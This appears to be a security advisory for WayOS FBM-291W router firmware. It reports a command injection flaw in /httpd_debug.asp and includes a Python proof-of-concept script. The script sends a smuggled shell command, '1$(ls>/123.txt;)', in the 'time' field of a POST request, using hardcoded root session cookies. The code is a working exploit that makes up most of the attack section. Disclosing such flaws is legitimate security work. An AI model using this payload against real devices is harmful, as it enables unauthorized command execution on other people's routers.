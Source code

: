 # FBM-291W-19.09.11V **Command Injection**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230707094355515](https://gitee.com/blogyoulin/img/raw/master/images/202307070943680.png)In /httpd_debug.asp, There is command injection

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

#payload=b'http://'+b'A'*0x1000
payload=b'1$(ls>/123.txt;)'

url = "http://192.168.0.1/httpd_debug.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"time": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```
